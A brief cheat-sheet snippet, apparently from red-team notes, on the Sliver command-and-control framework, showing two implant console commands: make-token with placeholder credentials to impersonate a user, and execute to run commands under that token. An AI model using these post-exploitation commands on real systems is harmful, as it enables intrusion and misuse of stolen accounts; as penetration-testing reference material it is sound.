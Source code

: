 # Sliver

## 01 - Make Token

```
sliver (IMPLANT_NAME) > make-token -u <username> -d . -p <password>

sliver (IMPLANT_NAME) > execute -T -o <commands>
```